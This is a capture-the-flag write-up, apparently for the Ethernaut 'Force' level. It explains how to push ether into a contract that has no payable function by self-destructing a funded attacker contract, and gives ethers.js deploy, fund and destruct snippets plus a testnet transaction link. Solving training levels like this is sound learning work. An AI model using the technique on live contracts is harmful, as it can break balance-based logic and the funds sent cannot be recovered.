 We are given a completely empty smart contract and we need to send funds to it. Normally, there will be a `payable` function without a payable function we face a difficult situation. After going through the docs, I understood that there's actually 2 more ways of force sending ethereum to a smart contract:
1. Mining rewards  
2. A 3rd party smart contract with funds that self-destructs have the chance to do a last tx sending the outstanding funds  

### Solution
We will go with the 2nd option aforementioned. The steps are:
1. Create a contract that has a payable function, that we will use to deposit, and a function that calls the native `selfdestruct` function. Check `force.sol`
2. Deploy the empty smart contract from Ethernaut's interface, get the address
3. Deploy the exploit smart contract:  
```
const AttackInstance = await ethers.getContractFactory("Attack");
const attackInstance = await AttackInstance.deploy({ gasLimit: 1000000 })
await attackInstance.deployed();
```
4. Fund the exploit smart contract:
```
let amountInEther = '0.0001';
let topup_attacker_tx_payload = { value: ethers.utils.parseEther(amountInEther), gasLimit: 50000 };
topup_attacker_tx = await attackInstance.deposit(topup_attacker_tx_payload);
```
5. Call the destruct function that self-destructs the exploit smart contract and sends the outstanding balance to the empty smart contract
```
destruct_tx = await attackInstance.destruct(level_instance_address);
```

Solution tx is here: https://rinkeby.etherscan.io/tx/0x22b3e7158767572c5ad1c696119013398fee8d19aa31dfe5895ce8a0a19d3a8d